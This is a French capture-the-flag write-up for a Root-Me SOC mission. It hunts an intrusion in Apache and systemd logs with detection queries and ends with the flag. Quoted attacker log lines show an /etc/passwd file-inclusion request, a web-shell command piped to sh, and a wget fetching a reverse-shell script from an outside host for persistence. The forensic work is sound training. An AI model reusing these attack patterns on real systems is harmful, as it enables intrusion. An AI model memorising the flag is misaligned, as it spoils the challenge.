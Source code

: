 # Mission 2 DGSE x Rootme (SOC)

![Brief](images/brief.png)

# Writeup

On nous met à disposition une plateforme SOC avec des logs Apache et des logs système. Pour constituer le flag, on nous demande les informations suivantes :

### 1. CWE de la première vulnérabilité (logs Apache)

**Type** : Local File Inclusion (LFI)

**Requête KQL/DQL** pour ne garder que les inclusions réussies :
```SQL
request : "*../*etc/*" AND status=200
```
**Résultat :**

![Result](images/result1.png)

**Extrait de log** :
```SQL
@timestamp:00:21:36.588 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:21:36 +0100] "GET /?lang=/etc&page=passwd%2500 HTTP/1.1" ==200==
```

L'attaquant a réussit à inclure le fichier */etc/passwd* --> `CWE-98`

### 2. CWE de la seconde vulnérabilité (logs Apache)

**Type** : File Upload arbitraire

**Requête KQL/DQL** pour détecter les commandes passées en paramètre ***cmd*** :
```SQL
verb : GET and response : 200 and request : "*?cmd=*"
```
**Résultat :**

![Result2](images/result2.png)

**Extrait de log** :
```SQL
@timestamp:00:31:40.526 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:31:40 +0100] "GET /admin-page/upload/68af9111db3749e2e8af39e255fd874c/ev1L.php.png?cmd=echo+'cGluZyAtYyAxIGdvb2dsZS5jb20='|base64+-d|sh
```

Un fichier nommé ***ev1L.php.png*** a été uploadé, puis invoqué avec une commande système via le paramètre ***cmd*** →  `CWE-434`

### 3. Adresse IP du serveur (logs systemd)

On peut rechercher **toutes** les occurrences de téléchargement via `wget` grâce à cette requête:
```SQL
message : "wget"
```
**Résultat :**

![Result2](images/result3.png)

**Extrait de log** :
```JSON
"message": [ "EXECVE argc=4 a0=\"@opensearch-dashboards-highlighted-field@wget@/opensearch-dashboards-highlighted-field@\" a1=\"http://163.172.67.201:49999/s1mpl3-r3vsh3l.sh\" a2=\"-O\" a3=\"/root/.0x00/pwn3d-by-nullv4stati0n.sh\""]
```

Le script a été téléchargé depuis l'adresse: `163.172.67.201`

### 4. Chemin du fichier de persistance

En reprenant le résultat précédent, on peut extraire le chemin: `/root/.0x00/pwn3d-by-nullv4stati0n.sh`

**Flag:**
```
RM{CWE-98:CWE-434:163.172.67.201:/root/.0x00/pwn3d-by-nullv4stati0n.sh}
```